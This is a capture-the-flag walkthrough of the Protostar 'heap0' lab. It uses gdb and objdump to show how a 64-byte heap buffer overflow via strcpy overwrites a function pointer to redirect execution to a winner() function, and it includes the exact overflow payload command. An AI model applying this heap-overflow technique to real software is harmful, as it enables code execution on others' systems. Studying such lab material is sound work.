



## Foreword
The plan in this challenge is introducing to us about the heap data structure particularly the dlmalloc, and using buffer overflow to overflow the heap and redirect code execution through a function pointer.


## Running The Program

Assuming we don't own the source code, when we run the program, we are getting segfault:
```bash
$ ./heap0 
data is at 0x804a008, fp is at 0x804a050
Segmentation fault
```

In order to know why it's giving us segfaults, we can just use gdb to debug the program, and what's going on in the background during execution process.

First of all we will setting up breakpoints for each library function call, `malloc` and `strcpy` are the important one:
```bash
b *main+21
b *main+37
b *main+52
b *main+81
b *main+107

or

b *0x080484a1
b *0x080484b1
b *0x080484c0
b *0x080484dd
b *0x080484f7
```

So `run` the gdb, and just `continue` until the program ends:
```bash
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x804a008 "", src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
```

The problem is in `strcpy`. We were essentialy trying to copy a `NULL` reference address/pointer into `dest`. By intuition, someone maybe immediately know we need to provide command line arguments, `argv`.

```bash
$ ./heap0 ABCD
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```

However if not sure, what it is, we can analyse these instructions where before calling the `main+102` `strcpy` the instructions were settings some necessary parameters in order to `strcpy` functions properly and according to its design.
```bash
0x080484dd <main+81>:	mov    eax,DWORD PTR [ebp+0xc]
0x080484e0 <main+84>:	add    eax,0x4
0x080484e3 <main+87>:	mov    eax,DWORD PTR [eax]
0x080484e5 <main+89>:	mov    edx,eax
0x080484e7 <main+91>:	mov    eax,DWORD PTR [esp+0x18]
0x080484eb <main+95>:	mov    DWORD PTR [esp+0x4],edx
0x080484ef <main+99>:	mov    DWORD PTR [esp],eax
```

Using `objdump` we can extract some important informations such as these functions that is contribute to this challenge.
```bash
$ objdump -t heap0

heap0:     file format elf32-i386

SYMBOL TABLE:
08048464 g     F .text	00000014              winner
08048478 g     F .text	00000014              nowinner
```

Also some gdb commands that's gonna help us in debugging process
```bash
set disassembly-flavor intel
set pagination off
define hook-stop
x/40wx 0x804a000
info r
x/2i $eip
end
```

## First `malloc` call, b *main+21
For the first malloc, we are allocating `0x40` or `64` bytes for a certain variable, in other word an array with buffer 64 bytes. Next, store the return value in `esp+0x18`.
```bash
0x08048495 <main+9>:	mov    DWORD PTR [esp],0x40
0x0804849c <main+16>:	call   0x8048388 <malloc@plt>
0x080484a1 <main+21>:	mov    DWORD PTR [esp+0x18],eax
```

Later in `printf()` we also will see the address of the first allocated heap is being printed:
```bash
0x080484cd <main+65>:	mov    edx,DWORD PTR [esp+0x18]
0x080484d1 <main+69>:	mov    DWORD PTR [esp+0x4],edx
0x080484d5 <main+73>:	mov    DWORD PTR [esp],eax
0x080484d8 <main+76>:	call   0x8048378 <printf@plt>
```

That's why the program output it gave us:
```bash
$ ./heap0 ABCD
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```
We can claim that `0x804a008` is the address where that array is settled. Lastly, we will use it to copy our argv[1] into that buffer `0x804a008`.
```bash
0x080484e7 <main+91>:	mov    eax,DWORD PTR [esp+0x18]
0x080484eb <main+95>:	mov    DWORD PTR [esp+0x4],edx
0x080484ef <main+99>:	mov    DWORD PTR [esp],eax
0x080484f2 <main+102>:	call   0x8048368 <strcpy@plt>
```

Here is the illustration after examining the heap memory in GDB:



- **0x804a000:** This is the start of the allocated heap chunk. Let's break it down:
  - **0x804a000:** The first `DWORD` (0x00000000) is likely unused or part of the `prev_size` field for this chunk.
  - **0x804a004:** The second `DWORD` (0x00000049) represents the chunk's `size`. The value `0x49` (73 in decimal) is the size of this chunk (including metadata).
  - **0x804a008 - 0x804a048:** These 64 bytes are the actual allocated memory block for `esp+0x18->esp+0x4` (spoiler: `d->name`), which corresponds to `malloc(64)`. Since this memory is newly allocated, it is zeroed out.
  - **0x804a04c - 0x804a04f:** This region includes part of the metadata for the next chunk. `0x00020fb9` indicates how much memory are available in this heap datastructure.

The detail of this so called "heap chunk" will be introduced on challenge [heap level 3](https://exploit.education/protostar/heap-zero/).

## Second `malloc` call, b *main+37




```bash
0x080484a5 <main+25>:	mov    DWORD PTR [esp],0x4
0x080484ac <main+32>:	call   0x8048388 <malloc@plt>
0x080484b1 <main+37>:	mov    DWORD PTR [esp+0x1c],eax
0x080484b5 <main+41>:	mov    edx,0x8048478
0x080484ba <main+46>:	mov    eax,DWORD PTR [esp+0x1c]
0x080484be <main+50>:	mov    DWORD PTR [eax],edx
```

- **Second malloc call (spoiler: for `struct fp *f`):**
  - **0x804a048**: The previous chunk metadata ends here.
  - **0x804a04c**: Metadata (`0x11`), which indicates the size of the new chunk (17 bytes, including metadata). Since `malloc` aligns memory allocations, a minimum allocation size of 16 bytes is expected for a `struct fp` with a single function pointer (4 bytes) + 8 bytes for metadata alignment.
  - **0x804a050**: (will be a) Pointer to `0x08048478` (address of `nowinner()` function), assigned to `f->fp`. Currently it points to nothing `0x804a050=0x08048478`


## Third breakpoint, b *main+81 printf

On the `printf()` call we will getting a message that's gonna help us to pinpoint where the buffer, and function pointer addresses were located, `data is at 0x804a008, fp is at 0x804a050`.


## Fourth breakpoint, b *main+107 strcpy
We are giving exactly 64 bytes, `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP`:
![string copy from argv[1] to buffer](./strcpy.png)


## Exploitation
The plan is to give buffer overflow until it hits the `0x804a050=0x08048478` which we know it call a function `nowinner()`, `0x08048478`. We are gonna replace that value with the `winner()` function `0x08048464`. So the simple calculation would be 64 bytes + overwrite the heap metadata 8 bytes + the address of `winner()`=72 bytes of junk + 4 bytes of address of `winner()`. This is the final exploit would looked like in gdb:

```bash
(gdb) r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP00001111\x64\x84\x04\x08"`"
```



Throwing it into the program:
```bash
$ ./heap0 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP00001111\x64\x84\x04\x08"`"
data is at 0x804a008, fp is at 0x804a050
level passed
```


## Comparasion with the source code
For extra work, we will spend some time comparing the source code with its disassembly.

The first `malloc()` call is about allocating 64 (0x40) bytes heap memory to buffer `name`:
```bash
0x08048495 <main+9>:	mov    DWORD PTR [esp],0x40
0x0804849c <main+16>:	call   0x8048388 <malloc@plt>
0x080484a1 <main+21>:	mov    DWORD PTR [esp+0x18],eax
```

```c
struct data {
  char name[64];
};
d = malloc(sizeof(struct data));
```

The second `malloc()` call is about allocating 4 bytes heap memory:
```bash
0x080484a5 <main+25>:	mov    DWORD PTR [esp],0x4
0x080484ac <main+32>:	call   0x8048388 <malloc@plt>
0x080484b1 <main+37>:	mov    DWORD PTR [esp+0x1c],eax
```
```c
struct fp {
  int (*fp)();
};
f = malloc(sizeof(struct fp));
```

and assigning `f->fp` with `nowinner()` function address `0x8048478`:
```bash
0x080484b5 <main+41>:	mov    edx,0x8048478
0x080484ba <main+46>:	mov    eax,DWORD PTR [esp+0x1c]
0x080484be <main+50>:	mov    DWORD PTR [eax],edx
```
```c
f->fp = nowinner;
```

So from now on can say that `esp+0x18` is struct `d`, and `esp+0x1c` is struct `f`. We are printing where struct `d` and `f` are located.

```bash
0x080484c0 <main+52>:	mov    eax,0x80485f7 ; "data is at %p, fp is at %p\n"
0x080484c5 <main+57>:	mov    edx,DWORD PTR [esp+0x1c]
0x080484c9 <main+61>:	mov    DWORD PTR [esp+0x8],edx
0x080484cd <main+65>:	mov    edx,DWORD PTR [esp+0x18]
0x080484d1 <main+69>:	mov    DWORD PTR [esp+0x4],edx
0x080484d5 <main+73>:	mov    DWORD PTR [esp],eax
0x080484d8 <main+76>:	call   0x8048378 <printf@plt>
```
```c
printf("data is at %p, fp is at %p\n", d, f);
```


```bash
0x080484dd <main+81>:	mov    eax,DWORD PTR [ebp+0xc] ; *argv
0x080484e0 <main+84>:	add    eax,0x4 ; *argv+4
0x080484e3 <main+87>:	mov    eax,DWORD PTR [eax] ; **argv+4 (which equal with) argv[1]
0x080484e5 <main+89>:	mov    edx,eax
0x080484e7 <main+91>:	mov    eax,DWORD PTR [esp+0x18]
0x080484eb <main+95>:	mov    DWORD PTR [esp+0x4],edx
0x080484ef <main+99>:	mov    DWORD PTR [esp],eax
0x080484f2 <main+102>:	call   0x8048368 <strcpy@plt>
```
```c
strcpy(d->name, argv[1]);
```
1. **Instruction at `0x080484dd`**:
   - `mov eax, DWORD PTR [ebp+0xc]`
   - This instruction moves the value at `ebp + 0xc` into `eax`. In the standard calling convention on x86 architecture, `ebp + 0x8` holds the `argc` (argument count), and `ebp + 0xc` holds the `argv` (pointer to the argument vector). 
   - Therefore, `DWORD PTR [ebp+0xc]` is indeed `argv`, which is `char **argv` in C.

2. **Instruction at `0x080484e0`**:
   - `add eax, 0x4`
   - Adds `4` to `eax`. Since `argv` is a pointer to an array of strings, `argv[1]` is at `argv + 1 * sizeof(char *)`, which is `argv + 4` on a 32-bit system (because each pointer is 4 bytes).

3. **Instruction at `0x080484e3`**:
   - `mov eax, DWORD PTR [eax]`
   - This dereferences the pointer in `eax` to get the value of `argv[1]`, which is the actual string.

4. **Instruction at `0x080484e5`**:
   - `mov edx, eax`
   - Copies the value of `eax` (which is `argv[1]`) to `edx`.

5. **Instructions at `0x080484e7` and `0x080484eb`**:
   - `mov eax, DWORD PTR [esp+0x18]` and `mov DWORD PTR [esp+0x4], edx`
   - These instructions prepare the arguments for the `strcpy` function call. The source string `argv[1]` is moved into `edx` and then stored on the stack as the second argument (using `DWORD PTR [esp+0x4]`).

6. **Instruction at `0x080484ef`**:
   - `mov DWORD PTR [esp], eax`
   - Moves the destination pointer `d->name` (the first argument to `strcpy`) into `[esp]`.

7. **Instruction at `0x080484f2`**:
   - `call 0x8048368 <strcpy@plt>`
   - Calls the `strcpy` function to copy the string from `argv[1]` to `d->name`.

Finally call the `nowinner()`:
```bash
0x080484f7 <main+107>:	mov    eax,DWORD PTR [esp+0x1c]
0x080484fb <main+111>:	mov    eax,DWORD PTR [eax]
0x080484fd <main+113>:	call   eax
```
```c
f->fp();
```